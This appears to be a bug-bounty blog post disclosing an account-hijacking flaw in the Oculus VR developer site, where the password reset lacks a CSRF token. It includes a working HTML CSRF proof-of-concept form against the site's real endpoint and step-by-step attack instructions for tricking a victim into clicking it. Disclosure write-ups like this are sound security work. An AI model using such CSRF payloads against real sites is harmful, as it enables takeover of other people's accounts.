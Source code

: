 ```yaml
---
layout: post
title: OCULUS VR account hijacking via password reset vulnerability
---
```



Oculus VR is a virtual reality technology company founded by Brendan Iribe and Palmer Luckey. Their first product, still in development, is the Oculus Rift, a head-mounted display for immersive virtual reality(VR). In March 2014,Facebook agreed to acquire Oculus VR for US$2 billion in cash and Facebook stock.

While testing the forgot password functionality of oculusVR .I have found that it's possible to abuse this functionality.
Here is a algorithm how the reset password functionality of oculus VR works.

{% highlight text %}
if (user is log in){
//the app will not use auth parameter which is a reset password passcode. Then change the password of the user who is currently log in.

}
else{
//if the user is not log in ,oculus uses the auth parameter to identify which account to be reset.

}
{% endhighlight %}

![passw](https://4.bp.blogspot.com/-tAuAQSsCwO4/U_LD_b0AOnI/AAAAAAAAAQs/hotORflSwzY/s1600/check1.png)
`Although I am log in, password reset page still can be viewed.`


The main problem here is oculusVR does not have a ANTI-CSRF token on
reset password functionality. :) the only need to hijack a oculusVR account is a valid reset password link token.
Combining the CSRF vulnerability and weird behaviour of password reset page will be resulted to **Account Hijacking vulnerability**

###  Sample CSRF PoC

{% highlight text %}
<body>
<form action="https://developer.oculusvr.com/core/UserAction.php" method="POST">
<input type="hidden" name="action" value="changepassword" />
<input type="hidden" name="auth" value="your_reset_token" />
<input type="hidden" name="newpassword" value="attackerpassword" />
<input type="hidden" name="confirmpassword" value="attackerpassword" />
<input type="submit" value="Submit request" />
</form>
</body>
{% endhighlight %}
To get the value of auth parameter you must request a reset password link on this link https://developer.oculusvr.com/lostpassword.

### HACK STEPS
* Attacker requests a reset password link
* Makes a CSRF PoC attack with reset token
* Sends the csrf poc link to his victim
* If the victim clicks that link his password will be changed!
